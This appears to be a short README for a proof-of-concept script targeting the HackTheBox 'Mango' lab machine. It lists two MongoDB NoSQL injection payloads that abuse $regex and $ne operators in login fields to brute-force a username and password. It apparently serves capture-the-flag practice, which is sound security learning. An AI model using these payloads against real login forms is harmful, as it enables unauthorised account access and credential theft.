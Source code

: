 # THB Mango POC: MongoDB Injection

HackTheBox Mango: NoSQL Injection Exploit to Brute Force Username &amp; Password.

Usage: `python3 exp.py`

payloads:

- `username[$regex]=^{username}.*&password[$ne]=1&login=login`
- `username[$ne]=1&password[$regex]=^{password}.*&login=login`
